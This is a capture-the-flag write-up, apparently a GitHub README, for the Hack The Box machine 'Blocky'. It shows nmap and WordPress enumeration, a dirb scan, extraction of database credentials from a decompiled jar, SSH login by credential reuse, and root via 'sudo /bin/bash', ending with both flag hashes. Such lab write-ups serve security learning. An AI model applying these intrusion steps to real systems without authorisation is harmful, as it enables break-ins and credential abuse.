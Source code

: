 # Blocky

### Challenge: FullPWN

### Tools: nmap, dirb, jd-gui

### Vulnerabilities: wordpress, php, credentials


Starting off we have a few open ports. I first tested the ftp login for anonymous but that didn't work. So I tried accessing the website but kept getting issues.

```console
└──╼ [★]$ sudo nmap -sC -sV -A 10.129.67.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 17:57 BST
Nmap scan report for 10.129.67.120
Host is up (0.011s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp?
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (94%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:linux:linux_kernel:2.6.22 cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.16 (93%), Linux 4.2 (93%), Linux 4.4 (93%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 - 4.6 (91%), Linux 3.2 - 4.9 (91%), Linux 3.18 (90%), Linux 3.2 - 3.8 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   17.78 ms 10.10.14.1
2   16.72 ms 10.129.67.120

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 240.66 seconds
```

A quick change to my hosts table will fix the redirect and allow us to access the site.

```console
└──╼ [★]$ sudo vim /etc/hosts
```
Add the following to the last line in the file.

```console
10.129.67.120 blocky.htb
```
We have a couple of links on the site including one for a login.

![image](https://user-images.githubusercontent.com/105310322/186245120-6ea699e9-7c27-4529-a551-060309b9656b.png)

![image](https://user-images.githubusercontent.com/105310322/186247909-49521513-6f0b-4ea2-b9c4-31a88c92ef57.png)



Since the login page is running wordpress we can do some enumeration. After running it we find 1 user "Notch". I thought maybe the user had a weak password so I tried a little of that and even tried the lost password section to see if I could capture something there. No luck. So lets see if dirb finds anything else.

```console
└──╼ [★]$ nmap -v --script http-wordpress* blocky.htb -p 80
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 19:31 BST
NSE: Loaded 3 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:31
Completed NSE at 19:31, 0.00s elapsed
Initiating Ping Scan at 19:31
Scanning blocky.htb (10.129.67.120) [2 ports]
Completed Ping Scan at 19:31, 0.02s elapsed (1 total hosts)
Initiating Connect Scan at 19:31
Scanning blocky.htb (10.129.67.120) [1 port]
Discovered open port 80/tcp on 10.129.67.120
Completed Connect Scan at 19:31, 0.00s elapsed (1 total ports)
NSE: Script scanning 10.129.67.120.
Initiating NSE at 19:31
Completed NSE at 19:31, 8.24s elapsed
Nmap scan report for blocky.htb (10.129.67.120)
Host is up (0.018s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-users: 
| Username found: notch
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|     akismet 3.3.2
|   themes
|     twentyfifteen 1.8
|     twentysixteen 1.3
|_    twentyseventeen 1.3
```


The dirb reveals alot of info. With most of them not meaning much I finally got some headway in the /plugins section of the site that led to 2 jar files.

```console
└──╼ [★]$ dirb http://blocky.htb /usr/share/dirb/wordlists/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Aug 23 19:48:05 2022
URL_BASE: http://blocky.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://blocky.htb/ ----
==> DIRECTORY: http://blocky.htb/javascript/                                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/                                   
==> DIRECTORY: http://blocky.htb/plugins/                                      
+ http://blocky.htb/server-status (CODE:403|SIZE:298)                          
==> DIRECTORY: http://blocky.htb/wiki/                                         
==> DIRECTORY: http://blocky.htb/wp-admin/                                     
==> DIRECTORY: http://blocky.htb/wp-content/                                   
==> DIRECTORY: http://blocky.htb/wp-includes/                                  
                                                                               
---- Entering directory: http://blocky.htb/javascript/ ----
==> DIRECTORY: http://blocky.htb/javascript/jquery/                            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/                               
+ http://blocky.htb/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)               
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/                                
+ http://blocky.htb/phpmyadmin/libraries (CODE:403|SIZE:305)                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/locale/                            
+ http://blocky.htb/phpmyadmin/setup (CODE:401|SIZE:457)                       
==> DIRECTORY: http://blocky.htb/phpmyadmin/sql/                               
==> DIRECTORY: http://blocky.htb/phpmyadmin/templates/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/themes/                            
                                                                               
---- Entering directory: http://blocky.htb/plugins/ ----
==> DIRECTORY: http://blocky.htb/plugins/assets/                               
==> DIRECTORY: http://blocky.htb/plugins/files/                                
                                                                               
---- Entering directory: http://blocky.htb/wiki/ ----
                                                                               
---- Entering directory: http://blocky.htb/wp-admin/ ----
==> DIRECTORY: http://blocky.htb/wp-admin/css/                                 
==> DIRECTORY: http://blocky.htb/wp-admin/images/                              
==> DIRECTORY: http://blocky.htb/wp-admin/includes/                            
==> DIRECTORY: http://blocky.htb/wp-admin/js/                                  
==> DIRECTORY: http://blocky.htb/wp-admin/maint/                               
==> DIRECTORY: http://blocky.htb/wp-admin/network/                             
==> DIRECTORY: http://blocky.htb/wp-admin/user/                                
                                                                               
---- Entering directory: http://blocky.htb/wp-content/ ----
==> DIRECTORY: http://blocky.htb/wp-content/plugins/                           
==> DIRECTORY: http://blocky.htb/wp-content/themes/                            
==> DIRECTORY: http://blocky.htb/wp-content/uploads/                           
                                                                               
---- Entering directory: http://blocky.htb/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://blocky.htb/javascript/jquery/ ----
+ http://blocky.htb/javascript/jquery/jquery (CODE:200|SIZE:284394)            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/doc/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/html/                          
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/js/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/jquery/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/pmd/                            
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/transformations/                
                                                                      
```  

Using ```jd-gui``` from the terminal will open the program and we can open blockycore.jar.
It is a small file that reveals a sqlpass and sqluser.

![image](https://user-images.githubusercontent.com/105310322/186242875-61349b7a-819b-4972-958f-88b233bcfbff.png)


Since there was an ssh port open we can try that first. Root doesnt work so I try notch instead and we get in and can cat that sweet sweet user flag.

```console
└──╼ [★]$ ssh notch@blocky.htb
The authenticity of host 'blocky.htb (10.129.67.120)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'blocky.htb,10.129.67.120' (ECDSA) to the list of known hosts.
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
0f10d469927782d02fa148d543bdb3ab
notch@Blocky:~$ 
```
Whenever I get into a machine as a user I always like to check my sudo permissions. This 1 was a suprise since it can run everything as sudo. 1st time for everything on HTB.

By running an easy sudo /bin/bash we quickly become root and cat the root flag!

```console
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# 
```
```console
root@Blocky:/root# ls
root.txt
root@Blocky:/root# cat root.txt
46ea558791cc4b4319e8eb4860b37c64
root@Blocky:/root# 
```

GG!!
